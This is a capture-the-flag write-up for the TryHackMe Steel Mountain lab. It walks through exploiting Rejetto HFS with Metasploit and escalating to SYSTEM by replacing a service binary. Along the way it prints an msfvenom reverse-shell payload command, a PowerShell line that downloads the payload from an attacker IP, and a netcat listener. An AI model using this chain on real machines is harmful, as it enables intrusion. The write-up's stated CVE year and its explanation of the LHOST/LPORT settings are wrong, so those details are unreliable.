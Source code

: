 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?
#### Solution:
##### Enumeration Part

Run the following nmap command in order to scan the target machine.

`sudo nmap -sS --top-ports 200 10.10.139.106`

Open the link to see the output of nmap: 
![Alt text](./screenshots/THM/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
##### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](./screenshots/THM/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](./screenshots/THM/Steel_Mountain/service_running.png)

##### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showd me followind output:
![Alt text](./screenshots/THM/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](./screenshots/THM/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](./screenshots/THM/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
`upload upload /path/to/PowerUp.ps1`
This path is the path of the script in your attacker machine.
![Alt text](./screenshots/THM/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
`shell`
Then go to the path where Powerup.ps1 script is present and enter the followind command:
`powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"`

Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](./screenshots/THM/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

##### Creating paylod

using msfconsole, we can make our payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.25.176 LPORT=4443 -f exe -o Advanced.exe`

now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
`powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"`

Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](./screenshots/THM/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](./screenshots/THM/Steel_Mountain/root_flag.png)

